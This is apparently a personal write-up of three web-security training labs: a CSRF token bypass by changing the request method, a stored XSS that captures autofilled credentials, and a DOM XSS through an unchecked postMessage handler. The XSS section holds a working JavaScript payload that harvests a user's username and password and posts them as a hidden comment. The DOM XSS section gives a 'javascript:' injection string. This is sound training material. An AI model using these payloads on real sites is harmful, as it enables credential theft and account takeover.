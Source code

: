 ### CSRF where token validation depends on request method
In this lab we know that the CSRF token depend on the request method, so first of all, as usual, we inspect the request made to change the email address once logged in the lab:
<br>![img](./img/38.png)<br>
We can see that the email address has changed (follow the redirect to see the final response of the server), now omitting the csrf parameter in the request we get an error:
<br>![img](./img/39.png)<br>
Try to change the request method to use GET (right click on the request body and select <b>Change request method</b>):
<br>![img](./img/40.png)<br>
It works even deleting the csrf parameter:
<br>![img](./img/41.png)<br>
So now we can create our malicious payload and to be hosted on the exploit server body (change the yellow value according to your Lab ID):
<br>![img](./img/42.png)<br>
Now click Store (1) to save the payload, then you can verify your exploit (2), then to solve the lab delivery the payload to the victim (3)

### Exploiting cross-site scripting to capture passwords
This is actually a funny and a challenging lab. Taking advantage of a XSS stored vulnerability we have to access the blog as administrator user. We know that the comment field is injectable, lets analyze the flow:
<br>![img](./img/33.png)<br>

First of all I thought to use the classic approach: stealing authentication cookie, but since the lab's cookie is HttpOnly we cannot access it through JS:
<br>![img](./img/34.png)<br>
Reading some hints we knew that if we set 2 inputs fields (username and password) in the comments of a post they will be filled automatically by the lab system before to execute our payload. Since my Burp version is Community I even cannot use Burp Collaborator, so the scenario I set it is to craft a payload that will submit a new comment containing the username and password collected whene a user (in this scenario of course this event is automated) visit the infected post. Following is the payload we will use in the comment field:
```
Username<input name=username id=username>
Password<input type=password id=password name=password onchange="pwn_usr()">
<script>
function pwn_usr() {
 var labId= '0aca008b0490873dc0c3c76000c0002a'; 
 var csrf = document.getElementsByName("csrf")[0].value;
 var secret_ = document.getElementById("username").value + ':' + document.getElementById("password").value;
 fetch('https://' + labId + '.web-security-academy.net/post/comment', {
   method: 'POST',
   body: 'csrf=' + csrf + '&postId=1&comment=This is amazing!<div style=visibility:hidden>' + secret_ + '</div>&name=zinzloun&email=zinzloun@libero.it&website='
  });
 };
</script>
```
When the password field is compiled the pwn_usr function is invoked, the function will create a new comment in the post with ID 3. Here we use the fetch JS API (https://www.w3schools.com/jsref/api_fetch.asp, remember that fetch is not supported in Internet Explorer 11 and earlier), to make the things a little bit obfuscated we will save the credentials in hidden div.
Lets create the malicious post comment:
<br>![img](./img/36.png)<br>
Just waiting a minute and then visiting the comments in the post id number 3 we can verify that our exploit worked:
<br>![img](./img/37.png)<br>
We can retrive the administrator password in the source of the page

### DOM XSS using web messages and a JavaScript URL
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 
#### Lab
Inspecting the source code of the lab home page we can see that the following JS code is present
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
Broadly a window object may obtain a reference to another (e.g., via targetWindow = window.opener), and then dispatch a MessageEvent on it with targetWindow.postMessage(). The receiving window is then free to handle this event as needed. The arguments passed to window.postMessage() (i.e., the "message") are exposed to the receiving window through the event object. But here the listener for dispatched message:
```
window.addEventListener('message', function(e)
```
does not implement any efficient security control, since the <b>origin</b> property is not checked and no verification of the received message syntax is implemented. Only a control on the message date is made on the presence of the http or https value, that does not prevent to inject JS command, e.g. the following message will bypass the control
```
alert(0);/*http:*/
```
In example above the http: string is inserted as a comment in JS so it is ignored, but the alert will be triggered. Knowing that we can proceed to craft our payload on the Exploit server:
<br>![img](./img/94.png)<br>

After haavig stored it (1), I tried to run (2) but I got a not found error. Reloding the exploit I can see that the message is not executed as JS:
<br>![img](./img/95.png)<br>

Let's try to add the javascript instructions before the print function as follows:
```
onload="this.contentWindow.postMessage('javascript:print();/*http:*/','*')"
```
The second argument, '*', specifies that any targetOrigin is allowed to send messages. Now store again the payload, view the exploit and the print window should appears, then deliver the exploit to the victim.


#### References
+ https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage